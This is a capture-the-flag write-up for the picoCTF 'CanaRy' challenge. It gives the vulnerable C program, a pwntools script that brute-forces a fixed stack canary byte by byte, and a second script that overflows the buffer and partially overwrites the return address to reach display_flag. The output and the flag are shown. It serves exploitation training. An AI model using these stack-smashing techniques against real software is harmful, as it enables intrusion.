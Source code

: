 # CanaRy - Points: 300
<b>Description : </b>This time we added a canary to detect buffer overflows. Can you still find a way to retreive the flag from this program located in /problems/canary_3_257a2a2061c96a7fb8326dbbc04d0328. Source.<br>
<b>Hints : </b>Maybe there's a smart way to brute-force the canary?
# Solved
Take a look the source
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUF_SIZE 32
#define FLAG_LEN 64
#define KEY_LEN 4

void display_flag() {
  char buf[FLAG_LEN];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }
  fgets(buf,FLAG_LEN,f);
  puts(buf);
  fflush(stdout);
}

char key[KEY_LEN];
void read_canary() {
  FILE *f = fopen("/problems/canary_3_257a2a2061c96a7fb8326dbbc04d0328/canary.txt","r");
  if (f == NULL) {
    printf("[ERROR]: Trying to Read Canary\n");
    exit(0);
  }
  fread(key,sizeof(char),KEY_LEN,f);
  fclose(f);
}

void vuln(){
   char canary[KEY_LEN];
   char buf[BUF_SIZE];
   char user_len[BUF_SIZE];

   int count;
   int x = 0;
   memcpy(canary,key,KEY_LEN);
   printf("Please enter the length of the entry:\n> ");

   while (x<BUF_SIZE) {
      read(0,user_len+x,1);
      if (user_len[x]=='\n') break;
      x++;
   }
   sscanf(user_len,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,key,KEY_LEN)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  read_canary();
  vuln();

  return 0;
}
```
When i launch the program, i must input length of entry first.
```cpp
#define BUF_SIZE 32
#define FLAG_LEN 64
#define KEY_LEN 4
```
I fill it with 32 size. <i>If more than 32 and input more than 32 too, you will got message <b>** Stack Smashing Detected **</b></i>. After that, program want us input some string.
```
Ok... Now Where's the Flag?
```
To do this, i must bruteforce to get <b>key / canary</b> , so i write it with python script
```python
from pwn import *
import string

BUF_SIZE = 32
FLAG_LEN = 64
KEY_LEN  = 4

res = ""
for i in range(KEY_LEN):
    for s in string.ascii_letters + string.digits:
        with context.local(log_level="ERROR"):
            try:
                r = process("vuln")
                r.sendlineafter("Please enter the length of the entry:\n>", str(BUF_SIZE + len(res) + 1))
                r.sendlineafter("Input> ", fit({BUF_SIZE: res + s}))

                response = r.recvline()
                if b"Stack Smashing Detected" in response:
                    continue
                res += s

                print("[!] Temp Key : " + res)
                break
            finally:
                r.close()
    else:
        print "Key not found"
        exit(0)
print res
```
I run this inside the ssh connection for more better performance, cause my internet so bad!. This message i got
```
[!] Temp Key : 5
[!] Temp Key : 57
[!] Temp Key : 57G
[!] Temp Key : 57Gh
57Gh
```
We got the key! Now lets bruteforce to allocating the function <b>display_flag</b>
```
$1 = {<text variable, no debug info>} 0x7ed <display_flag>
```
```python
from pwn import *
import sys
import string

BUF_SIZE = 32
FLAG_LEN = 64
KEY_LEN  = 4
OV_OFFSET = 16

key = "57Gh"
display_flag = "\xed\x07" # struct.pack("<I", 0x7ed)

while True:
    r = process("./vuln")
    r.sendlineafter("Please enter the length of the entry:\n>", str(BUF_SIZE + KEY_LEN + (OV_OFFSET + 2)))

    payload = "A" * BUF_SIZE + key + "A" * OV_OFFSET + display_flag
    r.sendlineafter("Input> ", payload)

    response = r.recvall(timeout=0.4)
    if b"pico" in response or b"CTF" in response or "pico" in response:
        log.info("Payload : " + payload)
        log.info("Flag : " + response)
        exit(0)

    r.close()
```
Message
```
[+] Starting local process './vuln': pid 243127
[+] Receiving all data: Done (71B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 243127)
[*] Payload : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA57GhAAAAAAAAAAAAAAAA
[*] Flag : Ok... Now Where's the Flag?
    picoCTF{cAnAr135_mU5t_b3_r4nd0m!_0bd260ce}
```
Flag : <b>picoCTF{cAnAr135_mU5t_b3_r4nd0m!_0bd260ce}</b>